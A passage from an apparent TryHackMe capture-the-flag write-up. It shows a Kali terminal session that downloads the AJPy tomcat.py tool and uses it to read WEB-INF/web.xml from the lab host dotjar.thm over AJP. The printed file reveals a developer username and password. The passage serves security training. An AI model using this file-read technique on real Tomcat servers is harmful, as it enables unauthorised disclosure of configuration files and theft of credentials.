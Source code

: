 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/hypn0s/AJPy/master/tomcat.py -q

tim@kali:~/Bureau/tryhackme/write-up$ python tomcat.py read_file WEB-INF/web.xml dotjar.thm
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>

```

